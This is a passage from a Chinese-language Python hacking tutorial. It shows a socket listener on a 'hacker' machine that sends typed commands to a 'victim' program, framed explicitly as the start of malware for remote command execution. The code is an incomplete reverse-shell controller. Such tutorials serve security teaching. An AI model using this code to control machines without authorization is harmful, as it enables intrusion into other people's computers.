 victim_socket.close()

现在我们的黑客和受害者程序在最简单的形式下已经完成。黑客程序正在监听传入的连接，而受害者程序尝试与黑客程序连接。一旦连接建立，黑客就会向受害者发送消息。受害者接收到消息后会将其打印出来。然后，双方关闭各自的连接。到目前为止，我们所学的是通用的套接字编程。一旦我们理解了如何在网络中的两个设备之间建立连接，我们就可以将这些程序应用到创建恶意程序上，允许黑客在受害者的计算机上执行恶意活动。

让我们将所有内容结合起来。首先，运行黑客程序，然后运行受害者程序。这一次，连接将被正确建立，在黑客的机器上，你将看到以下输出：

![图 6.5 – 黑客程序](img/B14788_06_05.jpg)

图 6.5 – 黑客程序

类似地，受害者将接收到消息并在屏幕上显示：

![图 6.6 – 受害者接收到的消息](img/B14788_06_06.jpg)

图 6.6 – 受害者接收到的消息

我们已经完成了拼图的一部分，即从受害者机器到黑客机器建立了一个成功的连接，并接收到了一个由黑客发送的小消息。这看起来可能不是什么大任务，但它是一个非常强大的工具。利用这个，你基本上可以从黑客那里接收命令。设计受害者程序执行这些命令并将结果发送回黑客。在下一节中，我们将学习如何从黑客机器向受害者机器发送命令，并将结果发送回黑客。

# 在受害者机器上远程执行命令

我们已经在*第三章*中看到过，*侦察与信息收集*（在*创建 Python 脚本*部分），如何使用 Python 在计算机上运行命令。我们将在此基础上构建一个恶意软件，它将接收命令并在受害者机器上执行。我们之前的程序只向受害者发送一条消息然后退出。这一次，我们将修改程序，让它做更多的事情。

在 Kali 机器上打开一个新项目，以便在受害者机器上执行命令并创建一个新文件。我们从建立连接开始：

import socket

if __name__ == "__main__":

hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

IP = "192.168.74.128"

Port = 8008

socket_address = (IP, Port)

hacker_socket.bind(socket_address)

hacker_socket.listen(5)

print("监听传入的连接请求")

hacker_socket, client_address = hacker_socket.accept()

下一步是获取用户输入的命令，我们将在受害者机器上执行此命令。一旦输入被获取，我们必须将其转换为字节并通过连接发送到受害者程序：

command = input("请输入命令 ")

hacker_socket.send(command.encode())
